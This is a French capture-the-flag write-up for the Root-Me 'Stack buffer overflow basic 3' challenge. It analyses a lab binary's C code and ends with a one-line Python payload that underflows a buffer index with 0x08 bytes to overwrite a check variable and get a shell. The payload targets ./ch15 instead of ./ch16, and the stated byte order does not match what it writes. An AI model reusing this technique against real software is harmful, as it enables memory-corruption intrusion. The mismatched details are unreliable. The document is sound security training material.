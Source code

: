 # ELF x86 - Stack buffer overflow basic 3

| Auteur/Autrice | Difficulté | Points |
|----------------|------------|--------|
|     [Lyes](https://www.root-me.org/Lyes?lang=fr)       | Moyen|   25    |     

## Sommaire
- [Partie 1 : Analyse de l'exécution](https://github.com/0xS3GFAULT/CTF-WriteUps_Fr/blob/main/rootme/App%20-%20Syst%C3%A8me/Moyen/ELF%20x86%20-%20Stack%20buffer%20overflow%20basic%203/readme.md#partie-1--analyse-de-lex%C3%A9cution)
- [Partie 2 : Analyse statique du code](https://github.com/0xS3GFAULT/CTF-WriteUps_Fr/blob/main/rootme/App%20-%20Syst%C3%A8me/Moyen/ELF%20x86%20-%20Stack%20buffer%20overflow%20basic%203/readme.md#partie-2--analyse-statique-du-code)
- [Partie 3 : Exploitation du buffer overflow](https://github.com/0xS3GFAULT/CTF-WriteUps_Fr/blob/main/rootme/App%20-%20Syst%C3%A8me/Moyen/ELF%20x86%20-%20Stack%20buffer%20overflow%20basic%203/readme.md#partie-3--exploitation-du-buffer-overflow)

## Partie 1 : Analyse de l'exécution

Avant d'exécuter le programme **./ch16**, nous remarquons plusieurs informations nous donnant une vérification de sécurité (checksec) du programme : 

![Screenshot](./assets/images/checksec_ch16_1.png?raw=true)
![Screenshot](./assets/images/checksec_ch16_2.png?raw=true)

Pas de **canary**, pas d'**ASLR** ni de **PIE**. L'exécutable est codé sur 32 bits, donc les adresses sont codées sur 4 octets.

Exécutons le programme : 

![Screenshot](./assets/images/exec_ch16_1.png?raw=true)

Le programme nous demande notre nom. Nous tapons *azerty* puis il redemande une saisie en boucle. Apparemment, le mot *azerty* n'aide pas puisque le programme ne fait rien d'autre...

Nous n'avons pas spécialement beaucoup d'informations, mais le code source en langage C du programme compilé nous est donné ! Analysons-le.

## Partie 2 : Analyse statique du code

![Screenshot](./assets/images/code_ch16_1.png?raw=true)
![Screenshot](./assets/images/code_ch16_2.png?raw=true)

4 éléments sont déclarés dans la fonction **main**, dont 2 sont initialisés :

```char buffer[64];
int check;
int i = 0;
int count = 0;
```

Voici la représentation simplifiée de la pile : 

<pre>
----------
| count  | (4 octets et égal à 0)
----------
|   i    | (4 octets et égal à 0)
----------
| check  | (4 octets)
----------
| buffer | (64 octets)
----------
|  ebp   | (4 octets)
----------
</pre>

En analysant rapidement le code, nous comprenons que si ```check == 0xbffffabc```, le shell **/bin/bash** se lance et nous gagnons la partie.
Cependant le buffer overflow n'est pas possible puisque ```read(fileno(stdin),&i,1);``` (à la ligne 27) ne lit qu'octet par octet l'entrée standard **stdin** et l'adresse de **buffer** est supérieure à l'adresse de **check**.

Il faut alors accéder à la mémoire précédant l'adresse du buffer, et pouvoir réecrire ces 4 cases : 

```buffer[-1], buffer[-2], buffer[-3], buffer[-4]```

... et c'est possible grâce au switch de la ligne 33 !

<pre>
case 0x08:
    count--;
    printf("\b");
    break;
</pre>

Si l'octet saisi vaut **0x08**, la variable **count** est décrémentée. Cette même variable peut être utilisée comme indice du tableau **buffer** à la ligne 45, uniquement si toutes les conditions précédentes ne sont pas vérifiées :

<pre>
default:
    buffer[count] = i;
    count++;
    break;
</pre>

Voilà notre plan : écrire 4 fois la valeur **0x08** pour ensuite insérer la valeur **0xbffffabc** de telle sorte à ce que : 

```buffer[-1] = 0xbc, buffer[-2] = 0xfa, buffer[-3] = 0xff, buffer[-4] = 0xbf```

## Partie 3 : Exploitation du buffer overflow

En utilisant Python, nous pouvons écrire le payload suivant : ```(python -c "print('\x08'*4+'\xbc\xfa\xff\xbf')";cat -) | ./ch15```

Il ne faut pas oublier le ```cat -``` qui bloque stdin afin que nous puissons rester dans le shell nouvellement crée.

![Screenshot](./assets/images/exploit_ch16.png?raw=true)

Nous avons gagné la partie :)
